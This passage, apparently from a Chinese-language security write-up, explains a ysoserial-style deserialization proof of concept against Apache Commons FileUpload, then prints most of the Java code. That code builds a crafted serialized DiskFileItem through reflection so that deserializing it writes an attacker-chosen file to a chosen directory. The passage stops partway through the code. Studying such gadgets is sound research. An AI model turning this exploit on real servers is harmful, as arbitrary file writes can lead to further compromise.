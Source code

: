和poc1中不同的地方我已经标注出来了，其实只有参数的不同。

下边的poc的效果是往 `"C:\\Users\15137\Desktop\hello1`这个目录中写入一个文件，文件内容为：`Which out!!!`

```java
package fileupload1;

import org.apache.commons.fileupload.disk.DiskFileItem;
import org.apache.commons.io.output.DeferredFileOutputStream;
import org.apache.commons.io.output.ThresholdingOutputStream;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Paths;

public class FileUpload2 {
    private static final String serialFileName = "fileupload2.ser";
    public static void main(String[] args) throws Exception {
        byte[] data = "Which out!!!".getBytes("US-ASCII");
        int thresh = data.length + 1;
        // 最终的文件输出目录
        String repoPath = Paths.get("C:\\Users", "15137", "Desktop", "hello1").toUri().getPath();
        // 对应outputFile，该路径是没有用的，后边会被repoPath覆盖
        // ysoserial中的作者已经提示我们这是个whatever，无须关心的路径
        String filePath = Paths.get("C:\\Users", "15137", "Desktop", "hello1", "whatever").toUri().getPath();

        // if thresh < written length, delete outputFile after copying to repository temp file
        // otherwise write the contents to repository temp file
        File repository = new File(repoPath);
        DiskFileItem diskFileItem = new DiskFileItem("test", "application/octet-stream", false, "test", 100000, repository);
        File outputFile = new File(filePath);
        DeferredFileOutputStream dfos = new DeferredFileOutputStream(thresh, outputFile);
        Field mos = dfos.getClass().getDeclaredField("memoryOutputStream");
        mos.setAccessible(true);
        OutputStream os = (OutputStream)mos.get(dfos);
        os.write(data);

        Field writtenField = ThresholdingOutputStream.class.getDeclaredField("written");
        writtenField.setAccessible(true);
        writtenField.set(dfos, data.length);

        Field dfosField = diskFileItem.getClass().getDeclaredField("dfos");
        dfosField.setAccessible(true);
        dfosField.set(diskFileItem, dfos);


        Field sizeThresholdField = diskFileItem.getClass().getDeclaredField("sizeThreshold");
        sizeThresholdField.setAccessible(true);
        sizeThresholdField.set(diskFileItem, 0);

        serialize(diskFileItem);
        verify();
    }
    public static void serialize(Object obj)throws Exception {
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.flush();
        oos.close();
        fos.close();
    }
    public static void verify() throws Exception {
        // 本地模拟反序列化
```